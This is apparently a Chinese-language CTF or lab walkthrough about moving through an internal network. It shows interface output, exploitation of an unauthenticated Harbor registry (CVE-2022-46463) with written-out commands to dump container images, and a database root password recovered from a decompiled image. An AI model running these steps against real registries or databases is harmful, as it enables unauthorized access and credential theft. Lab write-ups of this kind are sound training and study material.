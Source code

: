 目前拿到的这台是ERP，同样需要先进行扫描

```php
/ >ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc mq state UP group default qlen 1000
    link/ether 00:16:3e:05:ba:7c brd ff:ff:ff:ff:ff:ff
    inet 172.28.23.33/16 brd 172.28.255.255 scope global dynamic eth0
       valid_lft 1892156851sec preferred_lft 1892156851sec
    inet6 fe80::216:3eff:fe05:ba7c/64 scope link 
       valid_lft forever preferred_lft forever
3: eth1: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc mq state UP group default qlen 1000
    link/ether 00:16:3e:05:ba:7e brd ff:ff:ff:ff:ff:ff
    inet 172.22.10.16/24 brd 172.22.10.255 scope global eth1
       valid_lft forever preferred_lft forever
    inet6 fe80::216:3eff:fe05:ba7e/64 scope link 
       valid_lft forever preferred_lft forever
```

并在`http://172.22.14.46/`​上发现了一台harbor

使用[404tk/CVE-2022-46463: harbor unauthorized detection](https://github.com/404tk/CVE-2022-46463)下载镜像

```sh
python3 harbor.py http://172.22.14.46/ 
python3 harbor.py http://172.22.14.46/ --dump harbor/secret --v2
```

​![image](https://raw.githubusercontent.com/Wh1teJ0ker/PicGo/main/Pic/image-20250313142359-wpxuraj.png)​

然后在另外一个镜像中找到了

```sh
python3 harbor.py http://172.22.14.46/ --dump project/projectadmin --v2
```

反编译后得到

```sh
spring.datasource.url=jdbc:mysql://172.22.10.28:3306/projectadmin?characterEncoding=utf-8&useUnicode=true&serverTimezone=UTC
spring.datasource.username=root
spring.datasource.password=My3q1i4oZkJm3
spring.datasource.driver-class-name=com.mysql.cj.jdbc.Driver

mybatis.type-aliases-package=com.smartlink.projectadmin.entity
mybatis.mapper-locations=classpath:mybatis/mapper/*.xml
```

MDUT一把梭，但是extend版的怎么都连接不上

​![image](https://raw.githubusercontent.com/Wh1teJ0ker/PicGo/main/Pic/image-20250313150405-92prdgy.png)​

最后一台机子是一个k8s，但是不知道为什么怎么都无法访问
